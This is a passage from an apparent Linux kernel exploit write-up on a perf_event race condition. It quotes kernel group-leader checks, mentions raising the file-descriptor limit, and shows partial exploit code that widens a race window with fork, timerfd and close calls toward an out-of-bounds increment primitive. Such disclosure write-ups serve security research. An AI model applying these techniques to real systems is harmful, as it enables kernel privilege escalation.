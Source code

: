 ```c
		err = PTR_ERR(ctx);
		goto err_alloc;
	}

	/*
	 * Look up the group leader (we will attach this event to it):
	 */
	if (group_leader) {
        [...]
        /*
		 * Make sure we're both on the same task, or both
		 * per-CPU events.
		 */
		if (group_leader->ctx->task != ctx->task)
			goto err_context;
        [...]
    }
    [...]
}
```
The check:
```c
if (group_leader->ctx->task != ctx->task)
    goto err_context
```
ensures that group_leader and the new event belong to the same task.

Once an event is created, a new file descriptor is assigned to it.
While the default limit for the number of open file descriptors is 1024, this becomes a constraint since my exploit involves the allocating a lot of events. Fortunately, I can adjust this limit slightly. 
A function named `setup_max_fd_limit()` in my exploit is reponsible for adjusting this limit.

## Gaining 8-byte Out-of-Bounds Arbitrary Increment primitive.
### Extending the race window
To extend the race window, I adapted some code from [CVE-2023-4622 Write-Up](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-4622_lts/docs/exploit.md).

```c
void race(int group_leader) { // caller must have ownership of the event group
    [...]
    pid_t child_pid = fork();
    if (child_pid == 0) {  
        [...]
        for (int _=0; _<32; _++) {
            read(group_leader, event_buf, sizeof(event_buf));
        }
        [...]
    }
    else if (child_pid > 0) { // parent
        [...]
        struct itimerspec new = {.it_value.tv_nsec = r};
        timerfd_settime(tfd, TFD_TIMER_CANCEL_ON_SET, &new, NULL);
        close(siblings[100]);
        [...]
}
```
